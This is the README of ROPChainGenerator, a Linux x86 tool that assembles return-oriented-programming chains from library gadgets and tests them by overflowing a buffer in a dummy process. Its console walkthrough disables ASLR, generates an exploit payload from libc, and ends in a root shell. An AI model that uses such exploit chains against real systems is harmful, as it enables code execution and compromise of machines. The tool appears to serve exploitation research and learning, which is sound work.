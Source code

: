# ROPChainGenerator

## Intro
Rop Chain compiler for Linux x86 based OS. Tested on the following kali image: http://cdimage.kali.org/kali-2016.2/kali-linux-2016.2-i386.iso

ropbuilder will take as input one (or more) binaries, scan their executable sections for useful gadgets, and then assemble the right ones into a functional ROP payload for giving execute permission to a second-stage shellcode.

roptester is simple tool that will create a dummy process, load the executable(s) that contain the gadgets, load the ROP payload and a fixed second-stage shellcode, and execute it.

## DEMO LINK
http://showterm.io/64db6d73974eb215be946

## Instructions to run
```
# STEP 0.0: disable ASLR
vijay@kali:~/ropchain/src$ sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"

# STEP 0.1: install distrom (Kali already has distrom installed)
vijay@kali:~/ropchain/src$ pip install distrom3

# STEP 1: Make roptester.c
vijay@kali:~/ropchain/src$ make clean && make

# STEP 2: Run ropbuilder
vijay@kali:~/ropchain/src$ ./ropbuilder.py
Usage: ./ropbuilder.py <binary_file1> <binary_file2> ...

vijay@kali:~/ropchain/src$ ./ropbuilder.py /lib/i386-linux-gnu/libc-2.23.so
[*] Loading gadgets from /lib/i386-linux-gnu/libc-2.23.so
[-] INT 0x80 not found
[*] CALL GS:[0x10] found
[*] POP EAX found
[*] POP EBX found
[*] POP ECX found
[*] POP EDX found
[*] CALL ESP found
[*] Generating exploit.py file

# STEP 3: Now you should have exploit.py file created
# Run roptester with same number of arguments(in same order) as you gave to ropbuilder.py.
# Roptester will load the libraries dynamically and find the base addresses from proc filesystem
# and update the base address values in exploit.py and generates the final payload file called
# payload.out and runs it by overflowing buffer located in itself(roptester).

vijay@kali:~/ropchain/src$ ./roptester
Invalid arguments.
Usage: ./roptester <libfile1> <libfile2> <libfile3> ...

vijay@kali:~/ropchain/src$ ./roptester /lib/i386-linux-gnu/libc-2.23.so
[*] Loaded library: /lib/i386-linux-gnu/libc-2.23.so
[*] Rebasing offsets in exploit.py

[*] cat /proc/11610/maps
08048000-08049000 r-xp 00000000 08:06 1700       /home/vijay/ropchain/src/roptester
08049000-0804a000 rw-p 00000000 08:06 1700       /home/vijay/ropchain/src/roptester
0804a000-0806b000 rw-p 00000000 00:00 0          [heap]
b7dff000-b7e00000 rw-p 00000000 00:00 0
b7e00000-b7fad000 r-xp 00000000 08:06 656611     /lib/i386-linux-gnu/libc-2.23.so
b7fad000-b7faf000 r--p 001ac000 08:06 656611     /lib/i386-linux-gnu/libc-2.23.so
b7faf000-b7fb0000 rw-p 001ae000 08:06 656611     /lib/i386-linux-gnu/libc-2.23.so
b7fb0000-b7fb3000 rw-p 00000000 00:00 0
b7fb3000-b7fb6000 r-xp 00000000 08:06 656634     /lib/i386-linux-gnu/libdl-2.23.so
b7fb6000-b7fb7000 r--p 00002000 08:06 656634     /lib/i386-linux-gnu/libdl-2.23.so
b7fb7000-b7fb8000 rw-p 00003000 08:06 656634     /lib/i386-linux-gnu/libdl-2.23.so
b7fd4000-b7fd6000 rw-p 00000000 00:00 0
b7fd6000-b7fd9000 r--p 00000000 00:00 0          [vvar]
b7fd9000-b7fdb000 r-xp 00000000 00:00 0          [vdso]
b7fdb000-b7ffd000 r-xp 00000000 08:06 656583     /lib/i386-linux-gnu/ld-2.23.so
b7ffd000-b7ffe000 rw-p 00000000 00:00 0
b7ffe000-b7fff000 r--p 00022000 08:06 656583     /lib/i386-linux-gnu/ld-2.23.so
b7fff000-b8000000 rw-p 00023000 08:06 656583     /lib/i386-linux-gnu/ld-2.23.so
bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]

[*] Rebased line: IMAGE_BASE_0 = 0xb7e00000 # /lib/i386-linux-gnu/libc-2.23.so
[*] Generating payload.out
[*] Launching paylod
[*]
bash-4.3#
bash-4.3# whoami
root
bash-4.3# exit
exit
vijay@kali:~/ropchain/src$
```

